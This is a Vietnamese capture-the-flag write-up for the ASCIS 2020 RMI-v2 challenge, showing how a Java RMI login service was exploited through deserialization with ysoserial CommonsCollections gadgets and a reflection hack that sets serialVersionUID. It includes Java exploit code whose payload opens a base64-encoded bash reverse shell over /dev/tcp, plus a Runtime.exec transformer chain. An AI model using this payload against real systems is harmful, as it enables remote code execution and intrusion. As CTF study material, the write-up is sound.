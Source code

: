 # Step 1:
Dựa vào hint của tác giả với blog <a href="https://mogwailabs.de/en/blog/2019/03/attacking-java-rmi-services-after-jep-290/">này</a> có thể sử dụng gadget CommonsCollections6 để khai thác. Chỉnh sửa lại client lại 1 chút để gửi payload.

```
public static void main(String[] args) throws Exception {
        String serverIP = "IP";
        int serverPort = Integer.parseInt("PORT");
        Registry registry = LocateRegistry.getRegistry(serverIP, serverPort);
        ASCISInterf ascisInterf = (ASCISInterf)registry.lookup("ascis");
        Object payload = new CommonsCollections6().getObject("bash -c {echo,BASE64(bash -i >& /dev/tcp/IP/PORT 0>&1)}|{base64,-d}|{bash,-i}");
        System.out.println(ascisInterf.login(payload));
    }
```
Nhận được exception như dưới:
<img src="https://raw.githubusercontent.com/trungthiennguyen/CTF-Writeup/main/ASCIS-2020-Quals/RMI-v2/vul1.png">
Dựa vào đây biết được tác giả đã đổi biến static final serialVersionUID thành -1333713373713373737L.
# Step 2:
Sử dụng java reflection để thay đổi biến static final lại thành -1333713373713373737L là xong.
<img src="https://raw.githubusercontent.com/trungthiennguyen/CTF-Writeup/main/ASCIS-2020-Quals/RMI-v2/image_2020-11-02_17-29-08.png">
# Note:
Sau khi bruteforce class của ysoserial thì còn có thể sử dụng CommonsCollections5
# Explain
* Dự vào writeup bài 1 của <a href="https://github.com/vinhjaxt/CTF-writeups/issues/2">Vịnh</a> thì ta biết được để làm v2 trước tiên phải bruteforce class lấy trong ysoserial. Để bruteforce thì ta sẽ sử dụng GadgetProbe để tìm các classpath có tồn tại trên server, nếu không có sẽ đẩy ra ClassNotFoundException và không có DNS request, nếu có sẽ có DNS trả về.
* Lần lượt bỏ các classpath của từng gadget vào, mình và một người anh cựu sinh viên chung trường - Mr.S tìm được có 3 gadget trong ysoserial có đủ tất cả các classpath trả DNS về là URLDNS, CommonsCollections5, CommonsCollections6. Bọn mình chỉ fuzz tới đây đã thấy có đủ điều kiện để exploit rồi nên không fuzz tiếp mà bỏ gadget vào chạy luôn.
* Sau khi bỏ gadget vào client và gửi cho server như trên, thì bọn mình thu được InvalidClassExeption như hình trên. Trong Exeption có ghi 2 serialVersionUID của class InvokerTransformer, và khi kiểm tra thì biến static final serialVersionUID -86533...688 đó nằm trong class InvokerTransformer của mình. Từ đó mình khá chắc là serialVersionUID -1337... còn lại là nằm trên server. Việc của mình chỉ cần thay đổi biến này thành UID như trên server là xong.
* Để thay đổi giá trị của biến final, bọn mình sử dụng java reflection dựa trên một <a href="https://viblo.asia/p/java-va-nhung-dieu-thu-vi-co-the-ban-chua-biet-LzD5dJeOZjY">đường dẫn</a>, có tiếng việt luôn nên mọi chuyện cực kì dễ dàng.
* Do trình còi nên bọn mình custom lởm chởm gadget như sau:
```
	InvokerTransformer in1 = new InvokerTransformer("getMethod", new Class[] {
            String.class, Class[].class }, new Object[] {
            "getRuntime", new Class[0] });
        Field fieldA = in1.getClass().getDeclaredField("serialVersionUID");
        fieldA.setAccessible(true);
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(fieldA, fieldA.getModifiers()&~Modifier.FINAL);
        fieldA.set(in1,-1333713373713373737L);

        InvokerTransformer in2 = new InvokerTransformer("invoke", new Class[] {
            Object.class, Object[].class }, new Object[] {
            null, new Object[0] });
        Field fieldB = in2.getClass().getDeclaredField("serialVersionUID");
        fieldB.setAccessible(true);
        Field modifiersFieldB = Field.class.getDeclaredField("modifiers");
        modifiersFieldB.setAccessible(true);
        modifiersFieldB.setInt(fieldB, fieldB.getModifiers()&~Modifier.FINAL);
        fieldB.set(in2,-1333713373713373737L);

        InvokerTransformer in3 =new InvokerTransformer("exec",
            new Class[] { String.class }, execArgs);
        Field fieldC = in3.getClass().getDeclaredField("serialVersionUID");
        fieldC.setAccessible(true);
        Field modifiersFieldC = Field.class.getDeclaredField("modifiers");
        modifiersFieldC.setAccessible(true);
        modifiersFieldC.setInt(fieldC, fieldC.getModifiers()&~Modifier.FINAL);
        fieldC.set(in3,-1333713373713373737L);

        final Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            in1,
            in2,
            in3,
            new ConstantTransformer(1) };
```
* Xong gadget, sửa lại client như trên rồi gửi lên server để reverse shell về máy là xong.
